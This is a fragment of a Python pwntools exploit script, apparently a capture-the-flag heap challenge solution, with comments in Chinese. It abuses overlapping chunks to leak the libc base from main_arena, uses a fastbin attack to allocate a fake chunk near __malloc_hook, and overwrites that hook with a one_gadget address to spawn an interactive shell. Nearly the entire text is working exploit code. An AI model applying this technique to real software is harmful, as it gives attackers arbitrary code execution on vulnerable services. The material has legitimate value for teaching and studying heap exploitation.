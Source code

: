 ```python
payload= b'a'*0x40 + p64(0) + p64(0x111)
fill(1,len(payload),payload)
allocate(0x50) #3
free(2)
dump(1)
p.recvuntil("Content: \n")
p.recv(0x50)
main_aren88 = u64(p.recv(8))
arena_addr = main_aren88 - 88
#print(hex(arena_addr))
main_arena_offset = ELF("libc-2.23.so").symbols["__malloc_hook"] + 0x10 #wiki上获取基址的方法 
libc_base = arena_addr - main_arena_offset
leak('libc base addr',libc_base)
print(hex(libc_base))
#以下实现在__malloc_hook附近分配chunk覆盖__malloc_hook，
allocate(0x60) #2
free(2)
fake_chunk_addr = arena_addr - 0x33
payload= b'a'*0x40 + p64(0)+p64(0x71)+p64(fake_chunk_addr)
fill(1, len(payload), payload)
allocate(0x60)
allocate(0x60)
one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * b'a' + p64(one_gadget_addr)
fill(4, len(payload), payload)
allocate(0x100)
p.interactive()
```


